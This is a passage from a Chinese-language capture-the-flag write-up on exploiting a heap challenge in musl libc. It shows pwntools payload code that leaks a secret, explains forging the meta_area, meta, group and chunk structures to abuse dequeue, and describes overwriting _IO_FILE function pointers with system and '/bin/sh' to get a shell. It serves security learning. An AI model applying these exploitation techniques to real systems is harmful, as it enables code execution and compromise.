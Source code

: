 ```python
add(15, 0x38, payload)

payload = p64(11)
payload += p64(__malloc_context)
payload += p64(0x38)
payload += p64(2)
payload += p64(0xdeadbeef)
payload += p64(elf_base + 0x5120)
payload += p64(elf_base + 0x5160)

add(13, 0x38, payload)
check(11)
```
![](3.png)
成功获取``secret``值。

### Step 4: 申请大空间，伪造``meta_area, meta, group, chunk``
现在，我们已经掌握了伪造chunk并释放所需的所有数据了，因此可以开始伪造相关结构了。对于musl libc pwn来说，从meta_area这个外层结构一直伪造到chunk这个最内层结构是较为常见的操作。我们通过伪造这些结构调用到``dequeue``这个函数实现类似于glibc中unlink的利用。在本题中，我们可以通过分配一个大于0x1000的chunk来完成伪造（因为所有``meta_area``必须页对齐）。经过调试发现，当我们分配一个大chunk时，musl libc会为我们开辟一块新的空间专门用于存放，这个空间是一个 **``group``**。因此实际上开始写的地址后12比特应该为``0x030``。我们跳过本页，在下一页进行伪造。

经过调试发现，用于保存大chunk的group分配到的mmap空间就在libc加载地址的正下方，大小为0x5000。因此我们可以获取到这块空间的地址，并在假的``meta``结构中写入假的``group``地址。

```c
struct _IO_FILE {
	unsigned flags;
	unsigned char *rpos, *rend;
	int (*close)(FILE *);
	unsigned char *wend, *wpos;
	unsigned char *mustbezero_1;
	unsigned char *wbase;
	size_t (*read)(FILE *, unsigned char *, size_t);
	size_t (*write)(FILE *, const unsigned char *, size_t);
	off_t (*seek)(FILE *, off_t, int);
	unsigned char *buf;
	size_t buf_size;
	FILE *prev, *next;
	int fd;
	int pipe_pid;
	long lockcount;
	int mode;
	volatile int lock;
	int lbf;
	void *cookie;
	off_t off;
	char *getln_buf;
	void *mustbezero_2;
	unsigned char *shend;
	off_t shlim, shcnt;
	FILE *prev_locked, *next_locked;
	struct __locale_struct *locale;
};
```
这是musl libc中的``_IO_FILE``结构体，一般的利用方式是伪造一个假的``_IO_FILE``结构体，将``read``、``write``、``close``、``seek``函数指针覆写。注意，musl libc中没有one_gadget，因此我们只能将函数指针改写为``system``函数的地址，将``_IO_FILE``开头改写为字符串``/bin/sh``。
